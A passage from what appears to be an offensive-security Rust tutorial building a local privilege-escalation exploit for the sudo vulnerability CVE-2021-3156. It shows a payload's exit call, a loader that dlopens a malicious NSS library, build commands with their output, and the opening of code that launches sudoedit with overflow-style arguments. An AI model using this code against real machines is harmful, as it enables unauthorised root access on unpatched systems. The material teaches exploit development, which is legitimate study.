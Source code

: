 ```rust
    }

    syscall1(SYS_EXIT, 0);
}
```

To test that the `rust_init` function is actually called when the library is loaded, we create a simple loader program that loads the library.

**[ch_07/exploits/cve_2021_3156/loader/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/loader/src/main.rs)**
```rust
// A simple program to load a dynamic library, and thus test
// that the rust_init function is called
fn main() {
    let lib_path = "./libnss_x/x.so.2";

    unsafe {
        libc::dlopen(lib_path.as_ptr() as *const i8, libc::RTLD_LAZY);
    }
}
```

You can test it by running:

```bash
$ make payload
$ make load
```

Which should print:
```default
[+] Hello from Rust payload
...
```


Finally, the actual exploit.

Feel free to browse the code in the GitHub repository for the details. Here we are going to focus on the interesting bits of the implementation.

In idiomatic Rust, you would use [`std::process::Command`](https://doc.rust-lang.org/std/process/struct.Command.html) to execute an external program.

```rust
let env = [("var", "value")];
let env: HashMap<String, String> = env.iter().map(|e| (e.to_string(), e.to_string())).collect();

let args = ["-A", "-s", "AAAAA..."];


Command::new("sudoedit")
    .stdin(Stdio::null())
    .stdout(Stdio::inherit())
    .env_clear()
    .envs(&env)
    .args(args.iter())
    .spawn()
    .expect("running printenv");
```
